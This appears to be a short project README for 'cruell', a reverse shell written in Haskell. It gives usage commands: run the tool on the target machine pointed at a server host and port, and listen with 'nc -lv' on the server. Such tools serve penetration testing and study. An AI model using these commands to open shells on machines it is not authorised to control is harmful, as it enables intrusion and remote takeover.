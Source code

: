 # cruell
This is a reverse shell written in Haskell. On the target machine (the one you want to control) run ```cruell <server-hostname> <server-port>``` and on the server run ```nc -lv <server-port>```.
